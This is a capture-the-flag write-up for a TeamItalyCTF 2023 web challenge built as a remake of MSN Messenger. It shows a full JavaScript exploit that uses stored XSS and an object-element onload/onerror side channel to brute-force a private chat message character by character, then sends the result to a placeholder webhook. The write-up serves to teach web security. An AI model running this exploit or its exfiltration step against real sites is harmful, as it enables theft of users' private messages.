

# TeamItalyCTF 2023

## [web] Modern Sicilian Network (14 solves)
Say hi to the Modern Sicilian Network (MSN), the new exclusive social network for sicilians, made by a sicilian. Having taken inspiration from an old-but-gold social network in both looks and security, the MSN is set to become the future of communications in the whole island. How secure is it though?

Will you be able to steal the flag from the chat between admin Loldemort and cat Tofu?

Flag format: flag{[0-9A-Z]+}

Sites:

http://chat.msn.challs.teamitaly.eu

http://spaces.msn.challs.teamitaly.eu

Author: Leandro Pagano <@Loldemort>

## Overview

This challenge is a small remake of the now defunct Windows Live Messenger and a sort-of remake of its blog platform Spaces. The two services reside on two differents subdomains, `chat.msn.challs.teamitaly.eu` and `spaces.msn.challs.teamitaly.eu`.

After signing up, we can chat with the admin, write our own articles and send them in the chat. The "admin" (a normal user, actually) Loldemort will react to our last message every time we send a "nudge", which includes visiting the link if we sent an article.





## Exploitation

The flag is in the chat between Loldemort and Tofu, who's an actual cat registered on the service and chatting with Loldemort.

We can put any kind of HTML inside our articles, except for `<script>` tags. This makes no difference, because we can use ``, `<sCript>` or similar to execute any code we want.

Our goal is to exfiltrate a message, and messages are delivered by a WebSocket. This is the CSP of Spaces:

`Content-Security-Policy: default-src 'self' 'unsafe-inline' chat.msn.challs.teamitaly.eu:80`

The WS protocol isn't whitelisted, so we can't connect to the socket, but we can still make HTTP requests to the chat domain. One must note that there's an endpoint in the chat that lets us search messages by content:

`http://chat.msn.challs.teamitaly.eu/api/v1/search/<userid>?query=<query>`

This endpoint returns 200 and a list of IDs of messages containing that query in the chat between the asker and the specified user ID, or 404 if no such message is found. This would let us brute each letter of the flag.

We have to find Tofu's ID, which is straightforward as one of his articles is linked in the welcome article sent by Loldemort, but the chat has no CORS, so how do we read the response?

Now, here's the magic: we can exploit the behaviour of some elements and use them as side channels to know if a query is successful or returns any error code. One way is to use `<object>`'s `onload`/`onerror` handlers.

This is a simple payload inspired by an example on `xsinator.com`, but it can be done in many (and possibly more efficient) ways:

```js
tofu = "79836a09-02f0-4607-9a26-ddb5b241a8f4"
url = `http://chat.msn.challs.teamitaly.eu/api/v1/search/${tofu}?query=`
alphabet = "}0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
payload = "flag{"
i = 0
function leak(payload) {
    new Promise((r) => {
        let obj = document.createElement("object")
        obj.data = url+payload
        obj.onload = (e) => {
            e.target.remove()
            continueLeak(true)
        }
        obj.onerror = (e) => {
            e.target.remove()
            continueLeak(false)
        }
        document.body.appendChild(obj)
    })
}
function continueLeak(success) {
    if (success) {
        payload += alphabet[i]
        console.log(payload)
        if (alphabet[i] == "}") {
            window.location = "...WEBHOOK.../?flag="+encodeURIComponent(payload)
        }
        i = 0
    } else {
        i++
    }
    leak(payload + alphabet[i])
}
leak(payload + alphabet[i])
```

The headless was slower than a typical browser and some people found it occasionally unable to complete an exploit in one try. A simple solution was to split the exploit and run it repeatedly, exfiltrating some letters every time.

The flag was `flag{XSM3SS4NG3R}`.